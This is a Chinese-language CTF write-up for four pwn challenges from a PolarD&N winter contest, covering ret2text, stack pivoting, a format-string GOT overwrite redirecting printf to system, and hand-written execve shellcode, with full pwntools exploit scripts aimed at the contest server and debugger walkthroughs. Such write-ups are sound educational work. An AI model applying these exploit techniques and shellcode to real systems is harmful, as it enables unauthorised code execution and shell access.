

# PolarD&N冬季个人赛wp

> 题目可以在[这里](https://www.polarctf.com/#/page/challenges)找，就不上附件了（版权）

## like_lib3

32位***ret2text***

```python
from pwn import *
#p = process('./pwn')
p = remote('1.95.36.136',2055)
elf = ELF('./pwn')
sys = elf.sym['system']
payload = b'b'*(0x2c+4)+p32(sys)+p32(0)+p32(0x0804857c)
p.sendline(payload)
p.interactive()
```

## stack

***栈迁移***，但不多

通过栈迁移覆盖`rbp`的值，让`rbp`的位置变成`passwd`，从而实现任意地址读写

需要注意`scanf`函数读取的偏移是`4`


所以可以将`passwd`迁移到`rbp+0x4`的位置，这样通过`scanf`读入寻址，刚好读到`rbp`上

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('1.95.36.136',2138)
def dbg():
    gdb.attach(p)
    pause()

passwd_addr = 0x4033CC
payload = b'b'*0x50+p64(passwd_addr+0x4)
p.sendline(payload)

p.sendlineafter("input1:","4660")
p.interactive()
```

有些不理解？我们调试看看

- 未输入payload时


> 可以看到此时的rbp还是存储的栈结尾地址，`0x7ffedda9ade0`

- 输入`payload`


> 可以看到此时`rbp`已经被额外的数据覆盖了，这里`0x4033d0`也就是`passwd_addr+0x4`

- `scanf`之后

  

  

> 这里是将`rax`的值赋给`rbp-4`,而rax暂时存储我们的输入，也就是说，这里将4660传递给了`rbp-4`的位置，那么我们的`rbp`是多少呢，`passwd_addr+0x4`!，所以4660传递给了`passwd`,完成

- 那v4呢？接着看

  


> 可以看一下静态汇编，这里第一个判断是将`passwd`的值传给`eax`,然后比较；第二个判断是`rbp-4`的位置传递给`eax`，然后比较。
>
> 同时动态调试这里也展示的很清楚，pwndbg直接给解释为两次对`passwd`和`0x1234`比较
>
> 所以v4，其实已经被抛弃了（瓦达西...)

总之呢，这里可以实现的关键在于**局部变量的寻值是按照rbp的相对偏移**，所以将rbp移动后会改变寻值的对象

## tanjniu

**格式化字符串plt表劫持got表**

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
p = remote('1.95.36.136',2054)

printf_got = elf.got['printf']
system_plt = elf.plt['system']
payload = fmtstr_payload(7,{printf_got:system_plt})
p.sendline(b's')
p.sendline(payload)
p.interactive()
```

### 格式化字符串plt表劫持got表介绍

本质上是因为未开启`FUll RELRO`保护，所以plt表和got表可以被修改；并且格式化字符串有着**任意地址写**的能力。所以可以覆盖GOT表中某个函数的地址，使其指向恶意代码

> RELRO（read only relocation）是一种用于加强对binary数据段的保护的技术，大概实现由linker指定binary的一块经过dynamic linker处理过 relocation之后的区域为只读，设置符号重定向表格为只读或在程序启动时就解析并绑定所有动态符号

而pwntools中有格式化字符串修改函数`fmtstr_payload(offset,{address:data})`,在buu里面应该讲过，不说了就

==注意这个函数只能给32位程序用==

### 为什么要确定输入位置

1. **格式化字符串的工作原理：**

   当调用如`printf(buf)`时，`printf`会从栈上按顺序读取参数

   - 第一个参数时格式化字符串（`buf`的地址）
   - 后续参数时对应格式化字符串中的格式说明符（`%d`,`%s`,`%n`等）

   > 例如：`printf("%d %s", num, str)`这一命令在32位情况下的栈布局
   >
   > | 返回地址       |  ← 栈顶
   > | 格式化字符串地址 |  ← printf的第一个参数
   > | num的地址      |  ← printf的第二个参数（对应%d）
   > | str的地址      |  ← printf的第三个参数（对应%s）

2. **漏洞利用的核心：控制栈上的参数**

   如果用户输入的`buf`包含**可控的格式说明符**（`%x`,`%n`等)，可以利用这些访问或者修改栈上的数据

3. **确定输入位置**

   `fmtstr_payload(offset,{address:data})`的底层工作原理是：

   - 将`address`写入栈中，使其占据第`offset`个参数的位置
   - 用`%offset$n`来修改地址处的值为`system`的地址

## bllbl_shellcode_3⭐

***栈迁移+汇编编写shellcode***

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *

context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#gdb.attach(p)

bss_addr = 0x4040A0
leave_ret = 0x401338
readbss = 0x401321
jmp_rsp = 0x401342
sh_addr = 0x40201d
payload = b'b'*0x8+p64(bss_addr)+p64(readbss)+p64(leave_ret)

p.send(payload)

shellcode = asm("nop;")
shellcode+=asm("mov al,0x3b;mov esi,edi;mov edi,0x40201d;mov edx,esi;syscall;")
shellcode+=asm("nop;nop")
shellcode+=p64(jmp_rsp)

p.sendline(shellcode)

p.interactive()
```

题目直接给我们说BSS段上可以运行`/bin/sh`，所以应该是需要一步栈迁移的，分析一下

### 栈迁移部分

```c
ssize_t yichu()
{
  char buf[8]; // [rsp+8h] [rbp-8h] BYREF

  puts(asc_402028);
  return read(0, buf, 0x20uLL);
}
```

- buf距离栈底仅8字节，但`read`可读入0x20字节，可以覆盖`ebp`以及后面的一部分，所以我们直接让`bss`段的地址覆盖

`ebp`

- 然后还是需要向`bss`段写入shellcode，所以还需要一个read函数，直接对原本的read函数进行一个重新调用
- 接下来通过`leave_ret`，将栈移动




> 这是输入payload前后的栈，可以看到以下几个变化
>
> - rbp变为了bss段地址
> - rbp下面从执行结束指令变为了执行read指令
> - leave指令被写入


> 这是执行完`leave_ret`后的寄存器，可以看到栈顶将要执行read函数，栈底（`rbp`）已经转移到了`bss`段

**至此，我们已经完成了栈迁移的操作，已经将栈底转移到了bss段，也将执行read函数，可以读入shellcode到bss段了**

> 注：关于为什么rbp转移了就可以通过read读入到bss中
>
> ```c
> buf             = byte ptr -8
> lea     rax, [rbp+buf]
> mov     edx, 20h 		; nbytes
> mov     rsi, rax        ; buf
> mov     edi, 0          ; fd
> call    _read
> ```
>
> - 可以看到存储我们要读入区域的地址（buf，也就是第4行处）的寄存器（rsi）是由rax掌控的
>
> - 而rax又是由[rbp+buf]掌控的，buf又是一个固定的8字节偏移
> - 所以只需要移动rbp就可以掌控写入的地址

### 写入shellcode

即便是可以写入shllcode了，但是我们还是只有0x20字节的空间写入shellcode，常用的`asm(shellcraft.sh())`需要0x30字节，不够写入，所以需要我们手写一下简化的shellcode

#### **写shellcode**

可以看一下在执行完read之后一些比较关键的寄存器都是多少


- RSI指向0x404098,将开始执行此处的指令
- RDI（EDI）为0

那么可以先写出来可以执行的汇编

```assembly
mov al, 0x3b		;	设置系统调用号，0x3b对应execve(al为rax的字节型)
mov	esi, edi		;	将edi赋给esi，此时edi=esi=0
mov	edi, 0x40201d	;	将0x40201d赋给edi，此时edi=0x40201d(/bin/sh的地址)
mov edx, esi		;	将esi赋给edx，此时esi=0
syscall				;	调用syscall
;	syscall([al]0x3b)->execve([rdi]0x40201d, [rsi]NULL, [rds]NULL)
```

因此实现了shellcode的写入。但是执行之后没法getshell，继续调试看看

#### **补充细节**


这里是执行`leave_ret`的ret前，可以看到rsp是指向`0x4040a8`的，但我们的汇编码写在了rsi指向的`00404098`处，这样的话不论怎么执行，命令指针永远不会指向我们的汇编码那里，所以还需要对rsp进行操作

发现还有一个叫reg的函数，看一下

```c
push    rbp
mov     rbp, rsp
sub     rsp, 17h
jmp     rsp
```

*省流：让rsp指向rbp减0x17处*

那么执行这个之后rsp指向了：`[rbp]0x4040b0 - 0x17 = 0x404099`,很接近了，那么可以填充一个空指令`nop`让shellcode的开始位置就在0x404099

执行以下`reg函数`之后，确实和我们计算的一样，`rsp`指向了0x404099


接下来再调试一下shellcode


*这里多填充两个空指令，对齐栈*


**运行一下，over**


